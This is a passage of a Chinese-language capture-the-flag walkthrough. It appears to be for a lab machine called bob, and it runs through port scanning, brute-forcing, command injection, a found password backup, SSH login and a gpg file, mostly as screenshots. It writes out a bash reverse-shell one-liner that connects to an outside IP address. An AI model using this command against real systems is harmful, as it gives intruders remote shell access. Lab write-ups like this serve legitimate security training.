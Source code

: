![image.png](https://s2.loli.net/2025/05/03/EG1NuIrFhpDfiOx.png)

发现新的flag

## telnet 60000
![image.png](https://s2.loli.net/2025/05/03/aW5ECUdNR14wZBb.png)

## 60000端口
发现个flag
![image.png](https://s2.loli.net/2025/05/03/IuMRFU2WEGdH3zP.png)


# bob
## nmap扫描和字典爆破
![image.png](https://s2.loli.net/2025/05/04/n6xKkMJUwNPy4mL.png)

发现一个疑似命令注入点
![image.png](https://s2.loli.net/2025/05/04/5VxG7H16It32pTD.png)

反弹个shell

```
bash -c 'bash -i >& /dev/tcp/61.139.2.153/8888 0>&1'
```

反弹成功

## 信息收集
![image.png](https://s2.loli.net/2025/05/04/mC3sV7PNovu6a2W.png)

在bob的文件夹中发现了 这些东西 应该有用

![image.png](https://s2.loli.net/2025/05/04/AzZPv3n6cgsUENq.png)

![image.png](https://s2.loli.net/2025/05/04/tkZgKEUh2HP6eCw.png)


好家伙 居然发现了密码备份

![image.png](https://s2.loli.net/2025/05/04/LGjrOSiwA6DvctT.png)

有个新的用户

![image.png](https://s2.loli.net/2025/05/04/61QWTlr2tdELGuH.png)

用这个进行ssh登录 但发现没啥东西 因为我们在ssh登录前 就先把bob的目录看了一遍

为数不多的难点就是gpg的加密文件 用的是找到的一个脚本出来的开头英文字母
